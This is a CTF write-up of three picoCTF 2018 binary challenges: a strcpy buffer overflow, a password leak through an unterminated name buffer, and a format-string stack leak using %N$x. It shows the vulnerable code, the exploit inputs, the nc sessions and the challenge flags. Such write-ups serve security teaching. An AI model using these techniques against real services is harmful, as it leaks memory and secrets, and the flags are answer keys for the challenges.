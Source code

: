 Buffer Overflow 0
=================
This program just wants us to cause a segfault of some kind.
```C
void vuln(char *input){
  char buf[16];
  strcpy(buf, input);
}
```
Get onto the shell and just scream at it.
```
$ cd /problems/buffer-overflow-0_3_d5263c5219b334339c34ac35c51c4a17
$ ./vuln aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_2d11f6cd}
```

picoCTF{ov3rfl0ws_ar3nt_that_bad_2d11f6cd}

Leak Me
=======
So considering the fact that the password file is read right before the vulnerable buffer is printed...
```C
fgets(password, sizeof(password), file);

printf("Hello ");
puts(name);
```
(And the hint says so too.) We can give the program a long name, over 255 characters.
```
# nc 2018shell3.picoctf.com 31045
What is your name?
Monikammmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmm
Hello Monikammmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmm,a_reAllY_s3cuRe_p4s$word_d98e8d
```
a_reAllY_s3cuRe_p4s$word_d98e8d seems to be our password for this server.
```
# nc 2018shell3.picoctf.com 31045
What is your name?
Monika
Hello Monika,
Please Enter the Password.
a_reAllY_s3cuRe_p4s$word_d98e8d
picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}
```

picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}


Echooo
======
This program wants us to exploit the hex printing feature in printf, so we'll need the following sites for help:

https://blog.skullsecurity.org/2015/defcon-quals-babyecho-format-string-vulns-in-gory-detail

https://www.rapidtables.com/convert/number/hex-to-ascii.html

So from the article we know that %NUMBER$x can be used to arbitrarily hop around the stack. After playing around with printing out the hex values in certain positions, I found 27 through 38 is the target.

```
# nc 2018shell3.picoctf.com 46960
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> %27$x%28$x%29$x%30$x%31$x%32$x%33$x%34$x%35$x%36$x%37$x%38$x
6f6369707b4654436d526f66735f74346e695274615f7347445f655265476e61737530726237615f32613463a7d64
```
The %38$x only outputs 5/8 of the needed hex characters so add three 0s before the last 5 characters.
```
6f6369707b4654436d526f66735f74346e695274615f7347445f655265476e61737530726237615f32613463000a7d64
```
The second site translates this to:
```
ocip{FTCmRofs_t4niRta_sGD_eReGnasu0rb7a_2a4c<NULLTERM><NEWLINE>}d
```
Group by words and get:

picoCTF{foRm4t_stRinGs_aRe_DanGer0us_a7bc4a2d}``<NEWLINE><NULLTERM>``


